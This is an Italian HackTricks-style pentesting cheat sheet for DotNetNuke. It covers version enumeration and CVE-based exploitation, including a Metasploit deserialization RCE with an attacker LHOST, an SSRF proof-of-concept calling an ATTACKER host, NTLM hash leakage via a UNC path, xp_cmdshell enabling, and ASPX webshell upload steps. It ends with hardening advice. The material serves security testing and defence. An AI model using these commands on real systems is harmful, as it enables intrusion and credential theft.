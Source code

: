 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Se accedi come **amministratore** in DNN è facile ottenere **RCE**, tuttavia un certo numero di tecniche *non autenticate* e *post-autenticazione* sono state pubblicate negli ultimi anni. Il seguente cheat-sheet raccoglie le primitive più utili sia per il lavoro offensivo che difensivo.

---
## Enumerazione della Versione & Ambiente

* Controlla l'intestazione di risposta HTTP *X-DNN* – di solito rivela la versione esatta della piattaforma.
* Il wizard di installazione rivela la versione in `/Install/Install.aspx?mode=install` (accessibile su installazioni molto vecchie).
* `/API/PersonaBar/GetStatus` (9.x) restituisce un blob JSON contenente `"dnnVersion"` per utenti a bassa privilegio.
* Cookie tipici che vedrai su un'istanza live:
* `.DOTNETNUKE` – ticket di autenticazione delle forme ASP.NET.
* `DNNPersonalization` – contiene dati del profilo utente in XML/serializzati (versioni vecchie – vedi RCE qui sotto).

---
## Sfruttamento Non Autenticato

### 1. RCE da Deserializzazione dei Cookie (CVE-2017-9822 & seguiti)
*Versioni interessate ≤ 9.3.0-RC*

`DNNPersonalization` viene deserializzato ad ogni richiesta quando il gestore 404 integrato è abilitato. XML creato ad arte può quindi portare a catene di gadget arbitrarie ed esecuzione di codice.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Il modulo sceglie automaticamente il percorso giusto per le versioni patchate ma ancora vulnerabili (CVE-2018-15811/15812/18325/18326).  L'exploitation funziona **senza autenticazione** su 7.x–9.1.x e con un account *verificato* a basso privilegio su 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Versioni interessate < 9.13.8  –  Patch rilasciata aprile 2025*

Un bypass della vecchia correzione `DnnImageHandler` consente a un attaccante di costringere il server a emettere **richieste GET arbitrarie** (SSRF semi-alla cieca).  Impatti pratici:

* Scansione delle porte interne / scoperta dei servizi metadata nelle implementazioni cloud.
* Raggiungere host altrimenti protetti da firewall da Internet.

Proof-of-concept (sostituire `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
La richiesta viene attivata in background; monitora il tuo listener per i callback.

### 3. Esposizione dell'Hash NTLM tramite Redirect UNC  (CVE-2025-52488)
*Versioni interessate 6.0.0 – 9.x (< 10.0.1)*

Contenuti appositamente creati possono far sì che DNN tenti di recuperare una risorsa utilizzando un **percorso UNC** come `\\attacker\share\img.png`. Windows eseguirà felicemente la negoziazione NTLM, rivelando gli hash degli account server all'attaccante. Aggiorna a **10.0.1** o disabilita SMB in uscita nel firewall.

### 4. Bypass del Filtro IP  (CVE-2025-52487)
Se gli amministratori si affidano ai *Filtri Host/IP* per la protezione del portale admin, sii consapevole che le versioni precedenti a **10.0.1** possono essere bypassate manipolando `X-Forwarded-For` in uno scenario di reverse-proxy.

---
## Post-Autenticazione a RCE

### Via console SQL
Sotto **`Impostazioni → SQL`** una finestra di query integrata consente l'esecuzione contro il database del sito. Su Microsoft SQL Server puoi abilitare **`xp_cmdshell`** e generare comandi:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via upload di webshell ASPX
1. Vai a **`Impostazioni → Sicurezza → Altro → Ulteriori impostazioni di sicurezza`**.
2. Aggiungi `aspx` (o `asp`) a **Estensioni di file consentite** e **Salva**.
3. Naviga a **`/admin/file-management`** e carica `shell.aspx`.
4. Attivalo su **`/Portals/0/shell.aspx`**.

---
## Escalation dei privilegi su Windows
Una volta ottenuta l'esecuzione del codice come **IIS AppPool\<Site>**, si applicano tecniche comuni di escalation dei privilegi di Windows. Se la macchina è vulnerabile, puoi sfruttare:

* **PrintSpoofer** / **SpoolFool** per abusare di *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** per sfuggire a *Service Accounts*.

---
## Raccomandazioni di indurimento (Blue Team)

* **Aggiorna** ad almeno **9.13.9** (risolve il bypass SSRF) o preferibilmente **10.0.1** (problemi di filtro IP e NTLM).
* Rimuovi i file residui **`InstallWizard.aspx*`** dopo l'installazione.
* Disabilita l'uscita SMB outbound (porte 445/139).
* Applica filtri *Host* forti sul proxy di edge piuttosto che all'interno di DNN.
* Blocca l'accesso a `/API/RemoteContentProxy` se non utilizzato.

## Riferimenti

* Documentazione del modulo Metasploit `dnn_cookie_deserialization_rce` – dettagli pratici su RCE non autenticato (GitHub).
* Avviso di sicurezza GitHub GHSA-3f7v-qx94-666m – informazioni sul bypass SSRF del 2025 e patch.
{{#include ../../banners/hacktricks-training.md}}
